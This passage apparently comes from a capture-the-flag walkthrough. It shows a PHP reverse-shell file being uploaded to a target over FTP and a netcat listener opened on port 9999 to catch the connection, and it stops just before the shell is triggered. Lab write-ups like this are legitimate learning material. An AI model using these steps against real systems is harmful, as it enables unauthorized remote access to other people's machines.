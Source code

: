 <figure><img src="../../.gitbook/assets/4 (79).png" alt=""><figcaption></figcaption></figure>

* We replaced the IP address with our `tun0` address and set the port to a port of our choice.
* Let's upload the file to the FTP server using `put`.

```
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||50625|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        2.27 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.80 KiB/s)
```

* Now we have to listen on the `9999` port using `netcat`.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```

* Let's go to the `/files/ftp` folder.&#x20;
